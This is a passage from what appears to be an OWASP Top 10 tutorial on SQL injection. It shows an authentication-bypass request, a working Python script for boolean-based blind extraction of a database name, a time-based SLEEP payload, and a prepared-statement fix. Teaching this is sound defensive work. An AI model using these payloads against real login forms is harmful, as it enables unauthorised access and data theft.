```php
```

## A03:2021 – Injection

### SQL Injection Deep Dive
**Scenario**: User authentication bypass and data extraction

#### Discovery
```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=anything
```

#### Boolean-based Blind SQL Injection
```python
import requests
import string

def check_injection(payload):
    data = {"username": f"admin' AND {payload}--", "password": "test"}
    response = requests.post("http://target.com/login", data=data)
    return "Welcome" in response.text

# Extract database name character by character
database_name = ""
for position in range(1, 50):
    for char in string.ascii_lowercase + string.digits + "_":
        payload = f"(SELECT SUBSTRING(DATABASE(),{position},1))='{char}'"
        if check_injection(payload):
            database_name += char
            print(f"Database name so far: {database_name}")
            break
```

#### Time-based Blind SQL Injection
```sql
-- Payload that causes 5-second delay if condition is true
admin' AND IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0)--
```

#### Prevention Techniques
```php
// Using prepared statements (PHP/PDO)
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password_hash]);
$user = $stmt->fetch();
```

## A04:2021 – Insecure Design

